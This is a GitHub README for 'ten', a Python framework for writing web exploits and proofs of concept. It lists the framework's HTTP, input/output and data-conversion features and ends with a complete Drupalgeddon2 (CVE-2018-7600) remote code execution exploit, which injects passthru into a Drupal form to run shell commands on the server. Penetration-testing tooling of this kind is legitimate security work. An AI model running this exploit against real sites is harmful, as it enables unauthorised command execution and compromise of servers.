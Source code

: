# ten

My (small) web exploit framework. I got tired of writing standard code over and over again,
so I made this. Makes code more concise, clearer, faster to write. Might be useful to you.

It helps with HTTP interactions, handling user input, providing clear output, handling files, and running shell commands.

Useful to build POCs, and convert them into full, documented exploits in a blink.

# Documentation

Documentation is available here: [https://cfreal.github.io/ten/](https://cfreal.github.io/ten/).

It includes tutorials, quickstart guides, and the Python documentation.

# Features

* Input/output
    * Arguments to the main function are automatically mapped to `argparse`
        * They can hold a default value, get documented, etc.
    * Output is clear and readable
* HTTP
    * Improves the standard `requests` API
    * Parse HTTP responses easily (regex, CSS selectors, forms)
    * Turn BURP on and off in a blink
    * Concurrency
    * Lots more.
* Data conversion
    * Transform data: base64, hashing, query string, CSV, JSON, ...
    * Available as a tool: `tf`
* ...


# Installation

Ten is available on [PyPi](https://pypi.org/project/ten/).

```bash
$ pip install ten
```

# Example

Functional, fully documented Drupalgeddon2 exploit:

```python
#!/usr/bin/env python3

from ten import *


@entry
@arg("url", "URL of the Drupal website to exploit")
@arg("command", "Command to run on the server. Defaults to `id`")
def main(url, command="id"):
    """Exploit for Drupalgeddon2 (CVE-2018-7600)."""

    session = ScopedSession(url)
    response = session.post(
        url,
        params={
            "q": "user/password",
            "name[#post_render][]": "passthru",
            "name[#markup]": command,
            "name[#type]": "markup",
        },
        data={"form_id": "user_pass", "_triggering_element_name": "name"},
    )
    try:
        form = response.form(id="user_pass")
    except FormNotFoundError:
        failure("Unable to find form in response")
    
    build_id = form["form_build_id"]
    response = session.post(
        url,
        params={
            "q": f"file/ajax/name/#value/{build_id}"
        },
        data={"form_build_id": build_id},
    )
    result = response.re.search(r"^(.*)\[{", flags=re.S)
    
    assume(result, "Unable to find command result in response")

    msg_success("Exploit done")
    msg_info("Command result:")

    msg_print(result.group(1))


main()
```
